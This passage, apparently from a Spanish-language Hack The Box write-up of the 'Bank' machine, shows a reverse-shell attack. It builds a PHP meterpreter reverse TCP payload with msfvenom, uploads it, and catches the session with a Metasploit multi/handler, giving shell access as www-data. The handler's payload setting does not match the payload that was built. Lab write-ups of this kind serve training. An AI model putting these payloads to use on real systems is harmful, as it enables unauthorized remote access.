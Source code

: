Y listo, ya hemos ganado acceso de esta otra forma. Puedes hacer un tratamiento de la TTY, pero creo que es un poco inestable la shell, así que ten cuidado.

<h2 id="metas">Ganando Acceso con Metasploit Framework</h2>

Para realizar esto, necesitamos una **Reverse Shell** que nos de una sesión de **Meterpreter**, para hacer esto necesitamos la **herramienta msfvenom** para crear el Payload que sea ejecutable en **PHP**.

Hagamoslo por pasos:

* Ejecuta el siguiente comando para crear nuestra **Reverse Shell** con **Msfvenom**:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=Tu_IP LPORT=1212 -f raw > shell.htb
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 34850 bytes
```

* Cargalo a la página.

<p align="center">
<img src="/assets/images/htb-writeup-bank/Captura14.png">
</p>

* Abre el **Metasploit** y usa el **modulo multi/handler**, vamos a configurarlo para que nuestra Reverse Shell se pueda conectar con la misma configuración:
```bash
msfconsole
.
.
.
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >
msf6 exploit(multi/handler) > set LHOST TU_IP
LHOST => Tu_IP
msf6 exploit(multi/handler) > set LPORT 1212
LPORT => 1212
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter_reverse_tcp
payload => linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > exploit
.
[*] Started reverse TCP handler on Tu_IP:1212 
[*] Meterpreter session 1 opened (Tu_IP:1212 -> 10.10.10.29:57824)
.
meterpreter > sysinfo
Computer    : bank
OS          : Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
```
Y listo, con esto hemos ganado acceso a la máquina con **Metasploit Framework**.
